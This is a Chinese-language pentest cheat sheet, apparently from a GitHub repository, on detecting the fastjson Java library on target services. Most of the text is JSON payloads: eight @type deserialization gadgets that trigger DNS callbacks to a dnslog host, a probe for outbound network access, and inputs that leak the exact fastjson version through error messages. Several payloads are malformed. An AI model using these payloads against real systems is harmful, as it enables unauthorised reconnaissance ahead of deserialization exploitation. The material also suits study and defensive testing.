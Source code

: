 ```java
String contents = "[{\"name\":\"whoopsunix\",\"age\":18}]";
JSON.parseArray(contents);
```

# dnslog

这里给出8条fastjson的调用链进行测试，如果存在fastjson框架则会收到 dns 请求，其中`java.net.URL` 在 1.2.24中不会解析

```bash  
{"1":{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog"}}}  
{"2":{{"@type":"java.net.URL","val":"http://dnslog"}:"x"}}  
{"3":{"@type":"com.alibaba.fastjson.JSONObject",{"@type": "java.net.URL","val":"http://dnslog"}}""}}  
{"4":{"@type":"java.net.Inet4Address","val":"dnslog"}}  
{"5":{"@type":"java.net.Inet6Address","val":"dnslog"}}  
{"5":{"@type":"java.net.InetAddress","val":"dnslog"}}  
{"6":Set[{"@type":"java.net.URL","val":"http://dnslog"}]}  
{"7":{{"@type":"java.net.URL","val":"http://dnslog"}:0}}
```

在 dnslog 域名被禁用的情况下，有回显也可以用一些正常域名测试是否存在DNS配置或出网

```json  
{
  "a": {
    "@type": "java.net.InetAddress",
    "val": "www.baidu.com"
  }
}  
```

# fastjson版本探测

需要注意的是部分系统是不支持 [] 形式包裹的，根据站点特性灵活改变写法

```json
{
  "username": {
    "@type": "whatever"
  }
}
```

## 精确版本号1

有报错回显的情况下，返回精确版本号

```json  
{
  "@type": "java.lang.AutoCloseable"  
```

![](attachments/Pasted%20image%2020221118153949.png)
